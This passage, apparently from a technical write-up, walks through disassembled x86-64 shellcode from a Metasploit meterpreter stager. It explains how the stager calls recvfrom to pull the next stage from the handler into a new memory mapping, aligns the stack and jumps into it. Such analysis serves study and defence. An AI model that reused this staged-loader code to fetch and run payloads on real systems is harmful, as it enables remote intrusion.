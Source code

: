 ; set RSI to the addresss of the new mapping
mov    rsi,rax

; copy the file descriptor of the socket from the stack
; and store it into RDI
pop    rdi

; set R10 to 256
mov    r10,0x100

; clear R8 and R9
xor    r8,r8
xor    r9,r9

; set RAX to 45 (syscall sys_recvfrom)
mov    rax,0x2d

; invoke sys_recvfrom
syscall
</code></pre><p>As done previously, the shellcode uses the syscall <code>recvfrom</code> in order to read the next stage (in this case the third one) from the meterpreter handler.</p><p>The shellcode received from the handler will be stored at the address of the new mapping.</p><p>The third block is a little longer, but let's analyze it anyway:</p><pre><code class="language-nasm">; align the stack and increase the stack pointer by 50 bytes
; i.e. the last 50 bytes of the stack are going to be replaced by the next instructions
and    rsp,0xfffffffffffffff0
add    sp,0x50

; set RAX to 0x6d
mov    rax,0x6d
push   rax

; store the pointer to 0x6d int RCX
mov    rcx,rsp

; clear RBX
xor    rbx,rbx

; push the some values on the stack
push   rbx
push   rbx
push   rsi
mov    rax,0x7
push   rax
push   rbx
push   rbx
push   rdi
push   rcx
mov    rax,0x2
push   rax

; jump to the address of the new mapping, increased by 0x8d55
mov    rax,0x8d55
add    rsi,rax
jmp    rsi
</code></pre><p>This last block of instructions performs some preliminary operations, such as stack alignment, before jumping to the shellcode of the third stage.</p>